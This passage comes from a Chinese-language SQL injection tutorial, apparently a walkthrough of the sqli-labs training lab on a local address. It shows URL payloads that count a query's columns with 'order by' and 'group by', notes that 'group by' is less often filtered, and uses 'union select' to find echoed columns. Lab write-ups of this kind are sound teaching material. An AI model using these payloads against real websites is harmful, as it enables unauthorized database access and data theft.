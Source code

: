 ### 4、判断查询列数

使用`order by`来判断查询的列数

```
http://192.168.231.129:9001/Less-1/?id=2'+order+by+3%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603200328132.png" alt="image-20230603200328132" style="zoom:50%;" />

这里也可以使用`group by`，这个函数被过滤的机率相对更小

```
http://192.168.231.129:9001/Less-1/?id=2'+group+by+3#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603200410818.png" alt="image-20230603200410818" style="zoom:50%;" />

### 5、判断回显位置

使`id=-2`，让数据库查询不到该数据从而返回空，再使用`union`来寻找回显点

```
http://192.168.231.129:9001/Less-1/?id=-2' union select 1,2,3#
```
